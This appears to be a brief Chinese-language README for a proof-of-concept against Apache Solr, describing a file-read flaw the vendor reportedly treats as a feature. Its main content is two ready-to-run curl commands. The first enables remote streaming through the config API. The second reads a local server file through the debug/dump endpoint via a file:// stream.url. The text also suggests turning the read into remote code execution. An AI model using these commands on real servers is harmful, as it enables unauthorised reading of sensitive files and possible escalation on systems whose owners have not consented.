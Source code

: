 # Solr-file_read



一个官方觉得是feature而不修复的漏洞

如何read to RCE 值得思考



POC:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://192.168.33.130:8983/solr/db/config -H 'Content-type:application/json' 

curl "http://192.168.33.130:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///C:/a.txt" 

```



![image-20210318145728513](https://gitee.com/svenbeast/NotePicture/raw/master/img/2021/03/18/37216_image-20210318145728513.png)

